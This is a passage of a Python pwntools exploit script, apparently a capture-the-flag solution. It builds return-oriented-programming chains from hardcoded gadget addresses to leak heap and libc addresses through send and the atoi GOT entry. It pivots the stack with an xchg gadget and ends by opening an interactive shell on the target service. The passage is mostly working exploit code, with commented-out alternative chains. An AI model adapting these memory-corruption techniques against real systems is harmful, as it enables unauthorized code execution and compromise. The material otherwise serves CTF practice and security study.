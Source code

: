     ## send(4,0x6020e0,50,0) 
    name += p64(pop_rdi)
    name += p64(0x4)
    name += p64(pop_rsi)
    name += p64(0x6020e0)
    name += p64(pop_rdx)
    name += p64(50)
    name += p64(pop_rcx)
    name += p64(0)
    name += p64(send_l)   
    '''
    
    '''
    ## LIBC LEAK
    # send(0x4,atoi@got,X,Y)
    name  = p64(0x401713)       # pop rdi ; ret
    name += p64(0x4)
    name += p64(0x401711)       # pop rsi ; pop r15 ; ret
    name += p64(e.got['atoi'])     
    name += p64(0xb00bface) 
    name += p64(e.plt['send'])      
    '''
    heap_leak = 0x7f8355be7010  # remote
    #heap_leak = 0x7ffff6c0e060 # local

    encryption = 0
    location = "B"*8 # must be same size as 0x8
    goal  = "C"*0xcc 
    goal += p64(heap_leak-0x8)      # encryption0 region ; from HEAP LEAK
    last_words = p64(0x400e65)      # xchg rsp, rdi ; ret
    
    r.sendline("ROBOTS WILL BE FREE!") 
    r.recvuntil("?")
    r.send(name)
    r.recvuntil(":")
    r.sendline(str(encryption))
    r.recvuntil("?") 
    r.send(location)
    r.recvuntil("?") 
    r.send(goal) 

    ## HEAP LEAK
    chunk_leak = u64(r.recvuntil("?")[0xcc:0xcc+6].ljust(8,"\x00")) # heap leak
    log.success("heap region leaked: "+hex(chunk_leak))
    r.send(last_words)
    #atoi_leak = u64(r.recv(1024)[:8])
    #log.success("atoi@libc found @ "+hex(atoi_leak))
    #log.success("libc base found @ "+hex(atoi_leak-0x36e80))
    '''
    ## only needed if doing CAT FLAG ROP chain
    payload = "flag"+"\x00"*6+"r"+"\x00"
    payload.ljust(20,"\x00")
    r.send(payload)
    print r.recv(1024)
    '''
    r.interactive() 

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1: